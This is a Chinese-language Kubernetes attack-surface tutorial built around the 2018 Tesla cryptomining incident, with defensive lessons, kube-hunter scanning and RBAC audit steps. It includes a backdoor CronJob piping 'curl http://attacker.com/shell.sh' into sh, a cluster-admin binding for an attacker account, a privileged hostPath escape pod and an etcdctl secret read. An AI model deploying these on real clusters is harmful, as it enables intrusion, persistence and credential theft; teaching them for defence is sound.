


2018 年，一个名为 Tesla 的公司发现他们的 Kubernetes 集群正在被用于挖矿。但这不是普通的挖矿攻击——攻击者通过一个配置错误的 Kubernetes Dashboard 获得了集群管理员权限，然后部署了自己的容器，同时在多个节点上运行挖矿程序。

更令人震惊的是调查发现：攻击者早在被发现的数周前就已经获得了权限，在此期间他们进行了大量侦察活动，包括扫描集群中的敏感数据。**整个攻击过程中，Tesla 的安全系统没有产生任何告警**。

这个案例揭示了 Kubernetes 安全中最残酷的事实：**攻击面无处不在，而大多数攻击在早期阶段静默进行，直到造成实质破坏才会被发现**。

## K8s 攻击面的全景图

Kubernetes 架构引入了多个新的攻击面：



### 攻击面分类

| 层级 | 组件 | 风险等级 | 主要攻击向量 |
| --- | --- | --- | --- |
| 控制平面 | API Server | 高 | 未授权访问、RBAC 攻击 |
| 控制平面 | etcd | 极高 | 数据泄露、配置篡改 |
| 控制平面 | Kubelet | 高 | API 匿名访问、代码执行 |
| 工作负载 | Pod | 高 | 容器逃逸、供应链攻击 |
| 工作负载 | Secret | 高 | 凭证泄露、横向移动 |
| 网络层 | Service | 中 | 中间人攻击、服务冒充 |

## 攻击阶段：完整的攻击链

### 第一阶段：侦察（Reconnaissance）

攻击者首先收集集群信息。

**公开信息收集**：

- Kubernetes Dashboard 未授权访问
- Kubelet API 公开暴露
- Kubernetes 端口扫描（6443、8080）

**集群内部侦察**：

```bash title="攻击者的侦察命令"
# 列出所有命名空间
kubectl get namespaces

# 列出所有 Pod（包含敏感标签）
kubectl get pods -A

# 检查服务账号令牌
kubectl get serviceaccounts -A

# 列出所有 Secret
kubectl get secrets -A
```

### 第二阶段：初始访问（Initial Access）

获取集群的第一个 foothold。

**常见入口**：

- 配置错误的 Dashboard
- 泄露的 kubectl 配置
- 容器漏洞
- 供应链攻击
- 钓鱼获取开发者凭证

**Tesla 案例入口**：配置错误的 Kubernetes Dashboard，启用了 Heapster 且未配置认证。

### 第三阶段：执行（Execution）

在集群中执行代码。

**容器内执行**：

```bash title="在容器中执行命令"
kubectl exec -it <pod-name> -- /bin/sh

# 或者通过不安全的容器运行时
docker exec <container-id> /bin/sh
```

**创建新的恶意 Pod**：

```yaml title="攻击者创建的恶意 Pod"
apiVersion: v1
kind: Pod
metadata:
  name: crypto-miner
  namespace: kube-system
spec:
  containers:
    - name: miner
      image: crypto-miner:latest
      resources:
        limits:
          cpu: "2"
          memory: 2Gi
```

### 第四阶段：持久化（Persistence）

建��持久化访问通道。

**ServiceAccount Token**：

```bash title="创建 ServiceAccount 并获取 Token"
kubectl create serviceaccount attacker
kubectl create clusterrolebinding attacker --clusterrole=cluster-admin --serviceaccount=default:attacker
# Token 可用于后续访问
```

**CronJob 后门**：

```yaml title="创建后门 CronJob"
apiVersion: batch/v1
kind: CronJob
metadata:
  name: backdoor
  namespace: default
spec:
  schedule: "0 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          containers:
            - name: backdoor
              image: attacker:latest
              command: ["/bin/sh", "-c", "curl http://attacker.com/shell.sh | sh"]
          restartPolicy: OnFailure
```

### 第五阶段：横向移动（Lateral Movement）

从当前 Pod 扩展到其他 Pod 或节点。

**RBAC 提权攻击**：

```bash title="寻找可提权的 RBAC 配置"
# 检查当前用户的权限
kubectl auth can-i --list

# 寻找可以创建特权 Pod 的角色
kubectl get rolebindings,clusterrolebindings -A -o wide | grep -i "pod/create"

# 寻找可以绑定更高权限的角色
kubectl auth can-i create clusterrolebindings
```

**容器逃逸**：

- 特权 Pod 挂载宿主机
- HostPath 卷访问宿主机文件系统
- 共享宿主 PID 命名空间
- 内核漏洞利用

### 第六阶段：影响（Impact）

造成实质性破坏。

- 数据窃取（拖库）
- 资源滥用（挖矿）
- 服务中断（DoS）
- 供应链污染（篡改容器镜像）

## 常见攻击向量详解

### Kubectl 代理的风险

```bash title="不安全的代理配置"
# 默认配置下，kubectl proxy 允许未授权访问
kubectl proxy --port=8001

# 这会创建一个暴露所有 API 的代理
# 攻击者可以通过 http://localhost:8001/api/v1/secrets 访问 Secret
```

### Dashboard 未授权访问

Kubernetes Dashboard 在某些版本中默认配置不安全：

```yaml title="危险的 Dashboard 配置"
# 旧版 Dashboard 默认配置
args:
  - --authentication-mode=token
  - --enable-skip-login=true
  - --auto-generate-login-tokens=true
```

**风险**：任何能访问 Dashboard 的人可以获得完整集群访问权限。

### ETCD 数据泄露

etcd 存储了集群的所有数据，包括 Secret。

```bash title="直接访问 etcd 获取 Secret"
# 如果 etcd 直接暴露
etcdctl --endpoints=https://127.0.0.1:2379 \
  --cert=/etc/kubernetes/pki/etcd/server.crt \
  --key=/etc/kubernetes/pki/etcd/server.key \
  get /registry/secrets/production/db-credentials
```

### RBAC 提权攻击

攻击者利用 RBAC 配置错误获取更高权限。

```yaml title="低权限用户的提权路径"
# 用户只有创建 Pod 的权限
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: pod-creator
rules:
  - apiGroups: [""]
    resources: ["pods"]
    verbs: ["create"]

# 攻击者创建特权 Pod
apiVersion: v1
kind: Pod
metadata:
  name: privesc
spec:
  hostPID: true
  hostNetwork: true
  containers:
    - name: attacker
      image: attacker:latest
      securityContext:
        privileged: true
      volumeMounts:
        - name: rootfs
          mountPath: /host
  volumes:
    - name: rootfs
      hostPath:
        path: /
```

## 真实攻击案例：Tesla Kubernetes 挖矿事件

### 事件概述

2018 年，Tesla 的 Kubernetes 集群被用于加密货币挖矿攻击。攻击者通过配置错误的 Kubernetes Dashboard 获得了集群访问权限。

### 攻击链分析



### 教训总结

1. **Dashboard 安全配置**：禁止匿名访问，启用 RBAC 认证
2. **最小权限原则**：Dashboard 不应该拥有集群管理员权限
3. **网络隔离**：Dashboard 不应该公开暴露到公网
4. **监控告警**：挖矿行为应该有明显特征，告警应该及时触发

## 攻击面评估方法

### 自动化扫描工具

```bash title="使用 kube-hunter 进行攻击面评估"
# 安装 kube-hunter
pip install kube-hunter

# 运行扫描
kube-hunter --pod  # 从 Pod 内部扫描
kube-hunter --remote <kube-apiserver-ip>  # 远程扫描

# 生成报告
kube-hunter --report json > report.json
```

### 手动评估清单

| 检查项 | 风险 | 评估方法 |
| --- | --- | --- |
| Dashboard 访问控制 | 高 | 检查 Dashboard 认证配置 |
| Kubelet 匿名访问 | 中 | 检查 Kubelet 配置 |
| API Server 认证 | 高 | 检查 API Server 参数 |
| RBAC 配置 | 高 | 审计所有 RoleBinding |
| Secret 加密 | 高 | 确认 etcd 加密启用 |
| 网络策略 | 中 | 检查 NetworkPolicy |
| Pod 安全配置 | 高 | 检查 PSP/PSS 配置 |

### RBAC 权限审计

```bash title="识别过度权限"
# 列出所有可以创建 Pod 的 ServiceAccount
kubectl get clusterrolebinding -A -o json | \
  jq '.items[] | select(.roleRef.name == "cluster-admin" or .roleRef.name == "admin") | .subjects[]'

# 检查可以绑定 cluster-admin 的角色
kubectl auth can-i create clusterrolebindings --as=system:serviceaccount:default:sa-name
```

:::warning 攻击面的动态性
Kubernetes 攻击面不是静态的。每次配置变更、每个新部署的��用、每次 RBAC 调整都可能引入新的攻击面。建议定期进行攻击面评估。
:::

## 总结与延伸思考

Kubernetes 攻击面分析的目的是识别可能被利用的弱点。关键原则是：

**最小暴露**：只暴露必要的组件和服务，隐藏内部细节。

**多层防御**：即使一层被突破，其他层也应该能够检测和阻止。

**持续监控**：攻击通常在早期静默进行，持续监控是唯一有效的检测手段。

**快速响应**：建立明确的事件响应流程，确保发现攻击后能够快速遏制。

### 思考题

**问题 1**：为什么说「攻击者获取第一个 foothold 只是开始」？
<details>
<summary>参考答案</summary>

因为大多数初始访问只是普通用户权限，攻击者需要通过横向移动和权限提升才能造成实质破坏。攻击链通常包括：侦察（收集信息）→ 权限提升（获取更高权限）→ 持久化（建立后门）→ 横向移动（扩大范围）→ 影响（达成目标）。每一步都需要利用新的攻击面，给防御方提供多个检测和阻断的机会。
</details>

**问题 2**：如何建立一个有效的 Kubernetes 攻击面评估流程？
<details>
<summary>参考答案</summary>

建议采用以下流程：1）使用 kube-hunter 进行自动化扫描，识别已知漏洞；2）手动审查配置错误（Dashboard、Kubelet、API Server）；3）审计 RBAC 配置，识别过度权限和提权路径；4）审查 NetworkPolicy，检查是否缺少网络隔离；5）检查 Secret 管理，确认 etcd 加密和访问控制；6）审查供应链安全（镜像来源、CI/CD 配置）；7）建立持续监控机制，检测异常行为。
</details>
